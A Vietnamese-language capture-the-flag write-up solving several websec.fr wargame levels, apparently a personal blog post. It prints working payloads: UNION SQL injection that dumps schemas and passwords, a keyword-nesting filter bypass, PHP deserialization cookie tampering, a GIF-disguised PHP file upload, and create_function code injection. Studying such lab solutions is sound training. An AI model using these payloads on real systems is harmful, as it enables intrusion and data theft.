 ```yaml
---
title: "websec.fr"
author: "mtiennnnn"
tags: wargame
---
```

{% raw %}
# level01

![image](https://user-images.githubusercontent.com/75429369/179963339-bc0671f2-f043-4b12-a74a-3fd5ca44348c.png)

Sqlite3 có query hoàn toàn có thể thực hiện sqli, fuzz số cột thì biết được có 2 cột

```
1 and 1=0 union select sql,sql from sqlite_master -- '
```

![image](https://user-images.githubusercontent.com/75429369/179965358-c36348da-ac37-4f0d-891b-e9f4bb468304.png)

Có password kìa select nó ra với id 1 nào

```
1 and 1=0 union select password,password from users where id = 1 --'
```

![image](https://user-images.githubusercontent.com/75429369/179965685-6e109132-1c56-4b00-9b44-291905d404c7.png)

# level04

Bài cho 2 source code, source thứ nhất có chỗ đáng lưu ý sau

![image](https://user-images.githubusercontent.com/75429369/179966473-82c383f6-4bd9-4dcd-89bf-26e1fca980f9.png)

Kiểm tra có cookie và sẽ unserialize cái cookie đấy. Source thứ hai:

![image](https://user-images.githubusercontent.com/75429369/179966371-845ea550-b87f-4913-8972-ad29b77a98eb.png)

Có function `SQL_query` trỏ vào `$query` có liên kết với source thứ nhất. Với id = 1 thì ta được flag nên giờ chỉ cần select được tới nó là xong, đơn giản chỉ cần modify cái cookie thành serialize của class SQL mà trong đó sẽ có query sqli inject thêm từ query có sẵn trong source (nhớ base64 nữa).

```php
<?php 
class SQL {
  public $query = "SELECT username from users where id=1 UNION SELECT password from users where id=1";
}

$a = new SQL();
echo base64_encode(serialize($a));
?>
```

![image](https://user-images.githubusercontent.com/75429369/179969680-394dcc22-5173-4012-a1b5-cb43b030e870.png)

![image](https://user-images.githubusercontent.com/75429369/179969719-d132c13e-9a11-4ae4-9857-f609ef502872.png)

# level17

Bài này bắt ta nhập biến `flag` sau đó so sánh bằng hàm `strcasecmp` với $flag có sẵn, nếu ra sai thì sẽ cho flag. Có thể tham khảo hàm `strcasecmp` tại [đây](https://www.php.net/manual/en/function.strcasecmp.php)

![image](https://user-images.githubusercontent.com/75429369/179970219-15775230-4cbe-489e-a834-6f7d667d9ee1.png)

Trick để bypass bài này là thay vì nhập $flag là một string thì ta sẽ nhập dưới dạng một array, lúc này kết quả so sánh sẽ trả về `NULL` (tự debug nha)

![image](https://user-images.githubusercontent.com/75429369/179972273-94a3252b-73b0-4ebb-a7d7-a8e305fa332f.png)

# level25

Bài này cho nhập vào một trang muốn include. Đọc source lưu ý chỗ như sau

![image](https://user-images.githubusercontent.com/75429369/179972889-c83b046a-89ab-4f7d-b597-87d1db3aea56.png)

![image](https://user-images.githubusercontent.com/75429369/179972913-5c18ef80-d9cb-4ca4-86e5-2f5a71d5666a.png)

Ban đầu thấy biến `page` tưởng chừng path travelsal nhưng ở bước include nó đã thêm .txt vào đuôi rồi nên ta không thể đi theo hướng này.

Phân tích chỗ parse_url(), trước hết ta phải hiểu nó làm gì đã

![image](https://user-images.githubusercontent.com/75429369/179973464-1814f784-657f-4323-89e2-3c1e6647114e.png)

Vậy thì sau khi parse nó sẽ tạo ra mảng như trên, như trong source code sẽ lấy phần query ra và kiểm tra nếu chứa chữ `flag` thì sẽ báo lỗi.

Ở đây sẽ có nhiều hướng bypass, cách dễ dàng nhất là sử dụng 3 dấu slash, tham khảo thêm ở [đây](https://www.php.net/manual/en/function.parse-url.php) và [đây](https://blog.birost.com/a?ID=01000-ed462190-b4c0-40c0-84bb-0c96dc4be3fb)

![image](https://user-images.githubusercontent.com/75429369/179976647-a03f2616-9579-482a-8a44-7de0114a8a16.png)

Hoặc ta có thể nhập định dạng sai, ở đây mình thêm `:3` vào phía sau (tự debug nhé)

![image](https://user-images.githubusercontent.com/75429369/179977161-ad890710-8f82-463a-a880-d90b740826c8.png)

# level02

Bài này giống y hệt level 01, chỉ khác là sử dụng `preg_replace` để filter các kí tự cho payload sqli

![image](https://user-images.githubusercontent.com/75429369/179978149-ee531064-0cb0-43e9-a6d8-e417cd8e04d4.png)

Bypass chỗ này bằng cách sau

![image](https://user-images.githubusercontent.com/75429369/179978630-983e36d5-e2b7-4da4-876a-22f5fbdc7b8a.png)

Payload thì làm i hệt như level 1

```
1 and 1=0 uniunionon seleselectct password,password frofromm users where id=1 -- '
```

![image](https://user-images.githubusercontent.com/75429369/179978918-23302c26-493c-405a-8256-9d4e5e04902b.png)

# level08

Bài này cho ta upload một file gif, đoạn code kiểm tra file gif như sau

![image](https://user-images.githubusercontent.com/75429369/180018398-20f7a068-91f5-4732-90cf-96a26cf5ac90.png)

Ta thấy code có sử dụng `exif_imagetype`, sau khi tìm hiểu hàm này trên [đây](https://www.php.net/manual/en/function.exif-imagetype.php) thì ta có thể biết rằng hàm chỉ kiểm tra file có phải gif hay không thôi, còn phần body sẽ bị bỏ qua, ta sẽ inject một đoạn code php vào phần body này, và sử dụng magic byte để khi đi qua hàm xử lí thì nó sẽ hiểu file này là gif, tham khảo magic byte [này](https://medium.com/@d.harish008/what-is-a-magic-byte-and-how-to-exploit-1e286da1c198). Payload file như sau

```
GIF87a
<?php echo join(" ",scandir('.')); ?>
```

_Note: ban đầu mình có thử function để chạy code execution luôn mà không được, hình như các function đã bị chặn gần hết, test với payload trên thì được_

![image](https://user-images.githubusercontent.com/75429369/180021542-cc7d87cf-abcb-4459-9cb5-b662697c7da7.png)

```
GIF87a
<?php echo readfile('flag.txt'); ?>
```

![image](https://user-images.githubusercontent.com/75429369/180022117-f4923ddf-38b8-4a1e-9f80-03ac40721061.png)

# level15

Bài này mới vô cho ta declare hàm nào đó với `create_function()`, source lưu ý

![image](https://user-images.githubusercontent.com/75429369/180024889-b10b1bd5-98a2-4bb1-83a7-089e1f7cac45.png)

Ban đầu, mình thử nhập như gợi ý là `echo 1337;` thôi nhưng mà mình quên `;` thì web hiện như sau

![image](https://user-images.githubusercontent.com/75429369/180025271-0f0823d2-faf1-4e0e-85bd-e8276ff4dc49.png)

À há, có nghĩa là ở trước chỗ input này thì lệnh chưa được đóng dấu `;` nên dấu `}` ngay sau đó đã lỗi, vậy thì format theo mình nghĩ sẽ như sau

```
<chỗ mình input> } (đoạn code gì đấy phía sau)
```

Vậy thì chỉ cần nhập input là `;}` để thoát khỏi dấu `}` sau đó nhập đoạn code mình muốn và comment lại đoạn phía sau là được

```
;} echo 1; //
```

![image](https://user-images.githubusercontent.com/75429369/180026065-3a61a8e3-8404-4eb8-ae18-7f4af4db4277.png)

Oke rồi đọc flag thôi

```
;} echo $flag; //
```

![image](https://user-images.githubusercontent.com/75429369/180026326-1762cca4-fb67-4cab-a4d3-c6f20b64a835.png)

Mình có đi tìm thử cách làm khác thì thấy được trang [này](https://www.exploit-db.com/exploits/32417), nghĩa là thằng `create_function` này đã lỗi sẵn :)), php 8. đã bỏ nó.

# level20

Thêm một bài serialize rồi gán vào cookie khá giống bài trên nhưng lần này có filter thêm một số kí tự và đặc biệt là filter `O:`. Mục đích của việc này là để chống khi sanitize ra thì sẽ có định dạng O: ở đầu chỉ thị chữ Object. Để bypass cái này thì thay vì `O`, ta có thể dùng `C`, tham khảo ở [đây](https://www.phpinternalsbook.com/php5/classes_objects/serialization.html)

![image](https://user-images.githubusercontent.com/75429369/180036370-566fcf67-a97c-4bd4-b3aa-bb02c9d17d39.png)

```php
<?php
class Flag {

}

$a = new Flag();

echo (serialize($a));
```

![image](https://user-images.githubusercontent.com/75429369/180038108-11e50f18-7b83-4f4c-8e1f-be06f6e90770.png)

Sửa lại thành `C:4:"Flag":0:{}` rồi đem đi base64 encode rồi request với cookie với giá trị đó thôi

![image](https://user-images.githubusercontent.com/75429369/180038299-f8a54e8f-d3ed-4f05-a2c3-caa83d27428e.png)

_làm xong bật call me maybe nghe là đúng bài luôn á_



{% endraw %}











